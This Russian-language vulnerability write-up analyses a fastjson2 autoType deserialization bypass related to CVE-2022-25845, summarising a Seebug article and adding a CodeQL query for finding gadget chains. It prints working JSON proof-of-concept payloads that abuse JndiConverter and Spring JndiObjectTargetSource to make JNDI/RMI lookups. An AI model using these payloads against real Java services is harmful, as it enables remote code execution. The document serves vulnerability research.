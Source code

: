 **CVE-2022-25845 (fastjson2 exnted) (Маджуга Богдан Андреевич)**

**Описание:**

В статье https://paper.seebug.org/3017/ автор рассматривает библиотеку fastjson2** на наличие уязвимсотей ее предшественника fastjson. В качестве уязвимости автор выбрал уязвимость отнаследованную от CVE-2022-25845, которая работала на fastjson версии *1.2.25-1.2.41*. В качестве таргета автор рассматривает fastjson2 версии *2.0.38*.


Первоначально автор пробует запустить уязвимый код напрямую из старой версии:

```
public static void main(String[] args) {
    String poc = "{\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\",\"DataSourceName":\"rmi://127.0.0.1:8085/xxx\",\"AutoCommit\":\"false\"}";
    Object obj = JSON.parse(poc, JSONReader.Feature.UseNativeObject,
    JSONReader.Feature.SupportAutoType);
    System.out.println(obj);
}
```

Как и ожидалось уязвимость не сработала, по причине того, что теперь fastjson2 блокирует выполнение checkAutoType в случае если класс связан с DataSourceName. 

```
  if (ClassLoader.class.isAssignableFrom(clazz) || JDKUtils.isSQLDataSourceOrRowSet(clazz)) {
        throw new JSONException("autoType is not support. " + typeName);
  }
```

Автор предлагает легкий способ обхода данной уязвимости используя другой тип сериализуемого объекта:

```
public static void main(String[] args) {
    String poc = "{\"@type\":\"Lorg.apache.xbean.propertyeditor.JndiConverter;\",\"asText\":\"rmi://127.0.0.1:8089/test\"}";
    Object obj = JSON.parse(poc, JSONReader.Feature.UseNativeObject,
    JSONReader.Feature.SupportAutoType);
    System.out.println(obj);
}
```

При этом автор уточняет, что для данного взлома необходима отдельная зависимость, что делает ее менее критичной:

```
<dependency> 
  <groupId>org.apache.xbean</groupId> 
  <artifactId>xbean-reflect</artifactId> 
  <version>4.15</version>
</dependency>
```

Однако, автор нашел способ вызвать аналогичную уязвимость используя популярный фреймворк Spring, что вызывает необходимость к исправлению найденной уязвимости.

```
String poc3 = "{\n" +
                "    \"@type\":\"Lorg.springframework.jndi.JndiObjectTargetSource;\",\n" +
                "    \"jndiName\": \"rmi://127.0.0.1:12312/Exp\",\n" +
                "    \"jndiTemplate\": {\n" +
                "        \"@type\":\"org.springframework.jndi.JndiTemplate\",\n" +
                "        \"environment\": {\n" +
                "            \"java.naming.factory.initial\": \"com.sun.jndi.rmi.registry.RegistryContextFactory\"\n" +
                "        }\n" +
                "    }\n" +
                "}";

JndiObjectTargetSource o = (JndiObjectTargetSource) JSON.parse(poc3, JSONReader.Feature.SupportAutoType);
o.getTarget();
```

**Причины уязвимости:**

Основная причина уязвимости заключается в том, что библиотека fastjson умеет сериализовать JSON строку сразу в объект с указанным типом *@type (JSONReader.Feature.UseNativeObject)*. При этом установка аттрибута происходит через setter методы, которые ищутся по принципу ```name.startsWith("set")``` не обращая внимание на наличие аттрибута с искомым названием. Таким образом появляется возможность вызывать методы принимающие строку на вход, смотри пример:

```
package org.example;

public class DemoObject {
    public String fieldA;
    public String fieldB;

    public void setFieldA(String fieldA) {
        this.fieldA = fieldA;
    }

    public void setFieldC(String fieldC) {
        System.out.println("Setting field C: " + fieldC);
    }
}
```

Тогда следующие код:

```
    public static void main(String[] args) {
        String poc = "{\"@type\":\"org.example.DemoObject\",\"fieldA\":\"hello A\", \"fieldB\":\"hello B\", \"fieldC\":\"hello C\"}";
        DemoObject obj = (DemoObject) JSON.parse(poc,
                JSONReader.Feature.SupportAutoType);
        System.out.println(obj.fieldA);
    }
```

Приводит к следующему выводу в консоль:

```
Setting field C: hello C
hello A
```

Как мы видем аргумент fieldB не был установлен по причине отсутсвия setter-a, а метод setFieldC - был вызван несмотря на отсутствие соответствующего аттрибута.

**QLInspector**

Проанализиурем данную уязвимость используя библиотеку QLInspector. Будем использовать стандартный запрос:

```
import java
import libs.DangerousMethods
import libs.Source


private class DangerousExpression extends Expr {
  DangerousExpression() {
    ( this instanceof Call and this.(Call).getCallee() instanceof DangerousMethod ) or
    ( this instanceof LambdaExpr and this.(LambdaExpr).getExprBody().(MethodAccess).getMethod() instanceof DangerousMethod)
  }
}

private class CallsDangerousMethod extends Callable {
  CallsDangerousMethod(){
    exists(DangerousExpression de | de.getEnclosingCallable() = this)
  }
}

private class RecursiveCallToDangerousMethod extends Callable {
  RecursiveCallToDangerousMethod(){

    not this instanceof Sanitizer and

    /*
    /* can be commented for more results
    */
    (
      getDeclaringType().getASupertype*() instanceof TypeSerializable or
      this.isStatic()
    )

    and

    (
     this instanceof CallsDangerousMethod or
    exists(RecursiveCallToDangerousMethod unsafe | this.polyCalls(unsafe))
    )
  }

    /*
    /* linking a RecursiveCallToDangerousMethod to a DangerousExpression
    */
    DangerousExpression getDangerousExpression(){
    exists(DangerousExpression de | de.getEnclosingCallable() = this and result = de ) or
    exists(RecursiveCallToDangerousMethod unsafe | this.polyCalls(unsafe) and result = unsafe.(RecursiveCallToDangerousMethod).getDangerousExpression())
    }
}


/*
*
* global filter to block function in the chain,
* method names can be added when you found a false positive
*
*/
private class Sanitizer extends Callable {
  Sanitizer(){
    hasName([""])
  }
}


query predicate edges(ControlFlowNode node1, ControlFlowNode node2) {
    (node1.(MethodAccess).getMethod().getAPossibleImplementation() = node2 and node2 instanceof RecursiveCallToDangerousMethod) or
    (node2.(MethodAccess).getEnclosingCallable() = node1 and node1 instanceof RecursiveCallToDangerousMethod)
}

predicate hasCalls(RecursiveCallToDangerousMethod c0, RecursiveCallToDangerousMethod c1) {
    c0.polyCalls(c1) or exists(RecursiveCallToDangerousMethod unsafe | c0.polyCalls(unsafe) and hasCalls(unsafe, c1))
}

from Callable source, Callable sink
where 
  sink instanceof CallsDangerousMethod and
  source.polyCalls(sink) and
  sink.getFile().toString().regexpMatch("ObjectReaderImplObject")
select source, sink, sink.getFile()
```

В результате было найденно около 138 только по заданному файлу, что не представляется возможным для проведения анализа. Необходимо искать более точечно, в само место уязвимости. Также стоит отметить, что данная уязвимость все еще есть в последней версии fastjson2.

